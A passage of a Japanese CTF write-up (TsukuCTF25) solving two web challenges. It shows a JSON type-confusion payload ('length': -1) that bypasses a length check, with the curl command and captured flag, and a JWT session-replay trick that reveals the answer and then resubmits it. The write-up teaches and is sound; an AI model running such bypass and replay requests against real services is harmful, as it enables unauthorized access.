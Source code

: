 予想: $\bf{\hat t} = \bf{\hat A} \circ \bf{\hat s} + \bf{\hat e}$ を使って $\bf{\hat s}$ の欠けている部分を復元する。




## [web] len_len (451/882)
### 問題
```
"length".length is 6 ?

curl http://challs.tsukuctf.org:28888
```

### 解法
server.js の L17-21 を見ると以下のようになっている。
```javascript
  const array = JSON.parse(sanitized);
  if (array.length < 0) {
    // hmm...??
    return FLAG;
  }
```
`length` というキーを持っているオブジェクトを渡すことにすれば、値として任意の値を渡せる。

::: details コマンド
```console
$ curl -X POST http://challs.tsukuctf.org:28888 -d 'array={"length":-1}'
TsukuCTF25{l4n_l1n_lun_l4n_l0n}
```
:::

## [web] flash (170/882)
### 問題
フラッシュ暗算ができる Web サービスがある。ただし途中の数値は表示されない。合計を正しく正解せよ。

### 解法
セッションが JWT である。JWT には以下のような情報が入っている。
```json
{
  "round": 0,
  "session_id": "aec2f5b945e7a3d566a40f80261d01bd"
}
```
session_id が決まれば合計の値も一位に決まることに注意。(特に、複数回同じ session_id で遊ぶこともできる。)

数値が 10 個出た後に解答できる画面に遷移するが、そのあとの流れは以下。
1. GET すると次のページ用の JWT と token が払い出される
2. JWT と token を使って POST をする。データとして token と answer を渡す。
3. answer が正しければフラグが得られ、間違っていたら正しい値が得られる。

このプロセスを 1 回やって正しい値を得て、2 回目でフラグを得ればよい。

::: details 解答できる画面で情報を得るコマンド例 (1.)
```
curl http://challs.tsukuctf.org:50000/result -b session=.eJwNxzEOgCAMAMC_dHYo2kLxMwZKTYwGEtHJ-He97R44rd_HtVxttwozZA1MoXijSXmiFINH87SSODHOCAOc7a4FZocDdOt9a3XZ_oOMyByzcnGKI6k445ATxUQmCRneDzcUICM.aBYbmg.iiA4AW6szG1IlCD401NkP2CWtXo -v
```
:::
